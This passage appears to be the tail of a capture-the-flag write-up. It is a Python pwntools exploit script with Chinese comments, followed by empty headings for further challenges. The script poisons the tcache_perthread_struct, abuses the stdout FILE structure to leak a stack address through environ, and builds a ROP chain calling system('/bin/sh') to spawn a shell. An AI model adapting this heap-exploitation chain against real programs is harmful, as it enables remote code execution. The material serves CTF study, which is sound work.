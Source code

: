 ```python
create(8,p64(0) + p64(heap_base+0x10))

# 解包过程中会申请0xe0的空间存放content，也就是说会申请0xf0大小的chunk，由于我们已经将0xf0大小的chunk的entries指针改为heap_base+0x10
# 所以我们实际上申请到了heap_base位置的chunk，即tcache_perthread_struct
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
do_nothing(payload)

# leak stack_addr
payload2 = p64(0xFBAD1800)+p64(0)*3+p64(environ)+p64(environ+8)
do_nothing(payload2) 
leak = u64(p.recv(6).ljust(8,b'\x00'))
stack_addr = leak - 0x1a8 + 0x40
log.success("stack_addr : " + hex(stack_addr))

# 伪造counts
payload3  = p16(0)*4+p16(1)
payload3  = payload3.ljust(0x80,b'\x00')

# 伪造entrtes
payload3 += p64(0)*4+p64(stack_addr)
payload3  = payload3.ljust(0xa0,b"\x00")
do_nothing(payload3)

#gdb.attach(p)

pop_rdi = 0x2a3e5 + libc_base
system = libc.sym['system'] + libc_base
binsh = next(libc.search(b"/bin/sh\x00")) + libc_base
ret = 0x2a3e6 + libc_base
payload = cyclic(8) + p64(ret) +  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x58,b'\x00')

do_nothing(payload)

p.interactive()
```

## EzHeap

## SuperHeap

## magic_vm

